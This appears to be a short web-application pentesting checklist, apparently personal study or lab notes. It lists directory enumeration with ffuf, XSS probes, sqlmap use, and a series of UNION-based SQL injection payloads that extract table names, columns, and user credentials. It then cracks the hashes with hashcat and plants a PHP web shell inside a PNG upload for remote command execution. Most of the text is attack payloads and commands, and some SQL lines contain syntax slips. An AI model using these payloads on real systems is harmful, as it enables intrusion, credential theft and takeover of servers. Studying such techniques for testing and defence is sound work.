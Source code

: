 1. Enumerate directories using `ffuf`
	1. Take note
2. Check for password complexity for signup
3. Check for reflected XSS in url
	1. `<script>prompt(1)</script>` 
4. Check for stored XSS in comment
	1. `<script>prompt(1)</script>` 
5. Check for SQL injection
	1. Copy the GET http request from Burpsuite and paste into new `.txt`
		2. `sqlmap -r GET.txt -T users` --- may need to find TABLE_NAME if it is not "users"
	2. Blind SQL
		1. =`1' or 1=1#`
		2. =`1' or 1=1-- -`
		3. =`1' union select null, null, null, null, null, null-- -`
		4. =`1' union select null, 'string', null, null, null, null-- -`
		5. =`1' union select null, TABLE_NAME, 'string', null, null, null, null, FROM INFORMATION_SCHEMA.TABLES-- -`
		6. =`1' union select null, COLUMN_NAME, 'string', null, null, null, null, FROM INFORMATION_SCHEMA.COLUMNS-- -`
		7. =`1' union select null, username, password, null, null, null, null, FROM USERS-- -`
			1. Then can crack the hashes using `hashcat` (e.g. -m 3200 is for Blowfish encryption)
				1. `hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
6. Check for Insecure File Upload (use Burpsuite repeater to modify PNG header in POST packet of a valid PNG file upload)
```
...

PNG

IHDEARFilktyaEXt<?php system($_GET['cmd']); ?>
```
- then navigate to url directory the png is uploaded. Then can modify in url the `?cmd=whoami` to any command to achieve RCE